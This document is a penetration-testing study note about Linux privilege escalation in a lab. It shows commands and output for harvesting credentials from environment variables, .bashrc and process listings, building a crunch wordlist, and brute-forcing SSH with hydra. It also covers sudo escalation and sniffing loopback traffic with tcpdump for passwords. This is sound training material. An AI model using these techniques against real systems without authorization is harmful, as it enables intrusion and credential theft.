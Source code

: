 
Pentests are often time-constrained, so it's important to focus efforts first on low-hanging fruit.
- History files
- Environment variables
- Insecure file permissions
- Insecure system components
- Dotfiles (like *.bashrc* and *.bash_history*)

# User Trails

Environment variables can contain good information as it's how some system admins will store creds
```bash
env
	SHELL=/bin/bash
	PWD=/home/joe
	LOGNAME=joe
	XDG_SESSION_TYPE=tty
	HOME=/home/joe
	LANG=en_US.UTF-8
	...
	SCRIPT_CREDENTIALS=lab
	USER=joe
	...
```

To confirm it's a permanent variable, inspect the *.bashrc* config file
```bash
cat .bashrc
	# ~/.bashrc: executed by bash(1) for non-login shells.
	# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
	# for examples
	
	# If not running interactively, don't do anything
	case $- in
	    *i*) ;;
	      *) return;;
	esac
	
	# don't put duplicate lines or lines starting with space in the history.
	# See bash(1) for more options
	export SCRIPT_CREDENTIALS="lab"
	HISTCONTROL=ignoreboth
	...
```
	- Can confirm that the variable holding the password is exported when a user's shell is launched.


- Attempt to elevate privs with newly discovered password
```bash
su - root
	Password: 

whoami
	root
```


Let's assume that the password didn't work for the `root` user or we (for whatever reason) want to try to pivot to the `eve` user discovered during our [enumeration](17.1%20-%20PrivEsc%20Enumerating%20Linux.md#Enumerate%20all%20users)

Knowing the script creds, can attempt building a custom dictionary derived from the known password to attempt to brute force `eve`'s account.

- [crunch](Tools.md#crunch)
```bash
crunch 6 6 -t Lab%%% > wordlist
Crunch will now generate the following amount of data: 7000 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 1000 

cat wordlist                        
	Lab000
	Lab001
	Lab002
	Lab003
	...
	Lab998
	Lab999
```
	- 6 6 - Set a minimum & maximum length to 6 characters
	- -t - Hard-code the first three chars to Lab
	- % - Follow by numeric digit

> Since an SSH server is available, we can try to attempt a [remote brute force attack via Hydra](15.1%20-%20Network%20Services%20PW%20Attacks.md#SSH%20Attack)
```bash
hydra ssh://192.168.231.214 -l eve -P wordlist
	...
	[DATA] attacking ssh://192.168.231.214:22/
	[22][ssh] host: 192.168.231.214   login: eve   password: Lab123
```

### Sudo capabilities

- Once SSH'd in as `eve`, we can verify if we're running as a privileged user by listing their sudo capabilities
```bash
sudo -l
	[sudo] password for eve: 
	Matching Defaults entries for eve on debian-privesc:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
	
	User eve may run the following commands on debian-privesc:
	    (ALL : ALL) ALL
```
	- Points that eve is an admin account

- Elevate directly to root
```bash
sudo -i

whoami
	root
```

# Service Footprints

System daemons are Linux services that are spawned at boot time to perform specific operations without any need for user interaction.
Linux servers are often configured to host numerous daemons, like SSH, web servers, and databases, to mention a few.

System admins often rely on custom daemons to execute ad-hoc tasks and they sometimes neglect security best practices.

> Unlike Windows systems, Linux can list info about higher-priv processes like the ones running inside the `root` user context.

- Use `watch` to refresh the output of our **ps** command
```bash
watch -n 5 "ps -aux | grep pass"
	Every 5.0s: ps -aux | grep pass                                                   debian-privesc: Wed May  1 14:31:19 2024

	joe       2711  0.0  0.1   6112  3004 pts/0    S+   14:31   0:00 watch -n 5 ps -aux | grep pass
	root      2721  0.0  0.0   2384   764 ?        S    14:31   0:00 sh -c sshpass -p 'Lab123' ssh  -t eve@127.0.0.1 'sleep 5;
	root      2722  0.0  0.0   2356  1688 ?        S    14:31   0:00 sshpass -p zzzzzz ssh -t eve@127.0.0.1 sleep 5;exit
	joe       2745  0.0  0.0   6112   652 pts/0    S+   14:31   0:00 watch -n 5 ps -aux | grep pass
	joe       2746  0.0  0.0   2384   756 pts/0    S+   14:31   0:00 sh -c ps -aux | grep pass
	joe       2748  0.0  0.0   6072   880 pts/0    S+   14:31   0:00 grep pass
```
	- Notice how the admin has configure a daemon connecting to the local system w/ eve's creds in clear text

>**NOTE**:  Setting the interval -n to 5 will pause the output long enough to copy output or grab a screenshot.
	Be careful! as if anything updates ~ the same time, you may miss it.  Best to start with -n 1 for a feel of the cadence, then change


Also important to verify whether we have rights to capture network traffic.

[**tcpdump**](OS%20Commands.md#tcpdump) is the de facto cmdline standard for packet capture, but requires admin access as it operates on raw sockets.
- Not uncommon to find IT accounts have been given access to the tool for troubleshooting purposes.

```bash
sudo tcpdump -i lo -A | grep "pass"
	[sudo] password for joe: 
	tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
	listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
	........user:root,pass:lab -
	........user:root,pass:lab -
```

# 